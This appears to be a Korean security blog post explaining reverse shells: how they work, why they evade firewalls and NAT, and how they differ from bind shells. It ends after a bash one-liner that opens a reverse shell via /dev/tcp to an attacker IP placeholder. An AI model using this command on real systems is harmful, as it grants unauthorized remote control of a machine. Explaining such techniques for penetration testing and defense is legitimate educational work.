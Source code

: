 ```yaml
---
title: "리버스 쉘 이해하기"
date: 2025-04-27T16:23:41+09:00
draft: false
description: "리버스 쉘의 개념과 구현 방법, 탐지 회피 기법 및 방어 전략에 대해 알아보자."
tags: ["cybersecurity", "hacking", "network security", "penetration testing"]
---
```


## 서론

리버스 쉘은 일반적인 연결 방향과 반대로 작동하는 원격 쉘 기법이다. 대상 시스템이 공격자의 시스템으로 연결을 시도해 원격 명령 실행을 가능하게 한다. 방화벽과 NAT 환경에서 특히 유용한데, 대부분의 방화벽이 들어오는 연결은 차단하지만 나가는 연결은 허용하기 때문이다.

### 작동 원리

리버스 쉘이 작동하는 기본 흐름은 다음과 같다:

1. 공격자는 자신의 시스템에서 특정 포트의 연결을 수신하는 리스너를 설정한다
2. 대상 시스템에서 실행된 코드가 공격자 시스템으로 연결을 시도한다
3. 대상 시스템의 입출력이 공격자에게 전달된다
4. 공격자는 대상 시스템에 명령을 실행하고 결과를 확인할 수 있다

일반적인 원격 접속은 '공격자가 대상 시스템에 접속하는' 형태지만, 리버스 쉘은 '대상 시스템이 공격자에게 연결해오도록 만드는' 방식이다. 이런 역방향 연결이 방화벽을 우회하는 열쇠가 된다.

### 바인드 쉘과의 차이점

| 특성        | 바인드 쉘     | 리버스 쉘     |
| ----------- | ------------- | ------------- |
| 연결 방향   | 공격자 → 대상 | 대상 → 공격자 |
| 방화벽 우회 | 어려움        | 쉬움          |
| NAT 환경    | 접근 제한적   | 연결 가능     |
| 탐지 난이도 | 쉬움          | 어려움        |
| 포트 개방   | 대상 시스템   | 공격자 시스템 |

바인드 쉘은 대상 시스템에서 포트를 열고 대기하는 방식인데, 기업 네트워크 환경에서는 대부분 인바운드 연결이 차단되어 있어 실효성이 떨어진다. 반면 리버스 쉘은 대상 시스템이 먼저 연결을 시도하기 때문에 많은 방화벽 설정을 우회할 수 있다.

## 리버스 쉘 구현 방법

다양한 프로그래밍 언어와 도구로 리버스 쉘을 구현할 수 있다. 각 방법마다 장단점이 있으니 상황에 맞게 선택하면 된다. 여기서는 가장 일반적으로 사용되는 방법들을 소개한다.

### Bash를 이용한 방법

```bash
bash -i >& /dev/tcp/공격자IP/포트 0>&1
```
